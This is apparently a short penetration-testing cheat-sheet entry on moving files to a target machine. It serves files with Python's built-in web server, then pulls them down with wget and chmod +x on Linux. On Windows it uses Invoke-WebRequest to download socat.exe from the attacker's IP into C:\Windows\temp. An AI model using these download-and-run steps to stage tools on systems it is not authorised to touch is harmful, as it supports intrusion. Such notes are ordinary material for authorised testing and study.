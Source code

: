 **Type:** #type/tool
**Tags:**  #goal/file_transfer 
**Link:** 
**Purpose:** transfer files using http

---
# Info
sets up a 3 python webserver, then you can access files from remote machines that you are reachable from
# Usage

execute in directory to make files accessable via HTTP requests
`python3 -m http.server 8000` - 8000 is the port

on Linux target:
`wget` to download files
`chmod +x FILENAME.sh` to make executable

on Windows target: `Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`
